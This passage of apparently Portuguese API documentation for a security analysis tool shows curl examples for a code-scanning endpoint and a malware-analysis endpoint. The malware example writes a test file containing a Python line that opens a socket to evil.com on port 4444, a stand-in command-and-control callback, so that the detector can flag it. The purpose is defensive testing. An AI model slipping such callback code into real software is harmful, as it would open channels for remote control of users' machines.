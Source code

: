 ```bash
  }
}
```

### 2. Oráculo - Análise de Código
```bash
curl -X POST http://localhost:8099/api/v1/oraculo/analyze \
  -H "Content-Type: application/json" \
  -d '{
    "focus_category": "security",
    "max_suggestions": 5,
    "min_confidence": 0.8,
    "dry_run": true
  }'

# Resposta esperada:
{
  "status": "success",
  "data": {
    "session_id": "oraculo_20251002_123456",
    "files_scanned": 27,
    "suggestions_generated": 5,
    "suggestions": [
      {
        "category": "SECURITY",
        "priority": "HIGH",
        "file": "auth.py",
        "line": 42,
        "suggestion": "Hardcoded credentials detected...",
        "confidence": 0.95,
        "fix_preview": "..."
      }
    ]
  }
}
```

### 3. Eureka - Análise de Malware
```bash
# Criar arquivo de teste
echo 'import socket; socket.socket().connect(("evil.com", 4444))' > /tmp/test.py

curl -X POST http://localhost:8099/api/v1/eureka/analyze \
  -H "Content-Type: application/json" \
  -d '{
    "file_path": "/tmp/test.py",
    "generate_playbook": true
  }'

# Resposta esperada:
{
  "status": "success",
  "data": {
    "file_hash_md5": "...",
    "file_hash_sha256": "...",
    "patterns_detected": [
      {
        "pattern_name": "NETWORK_SOCKET_CONNECTION",
        "category": "COMMAND_AND_CONTROL",
        "severity": "HIGH",
        "line_number": 1
      }
    ],
```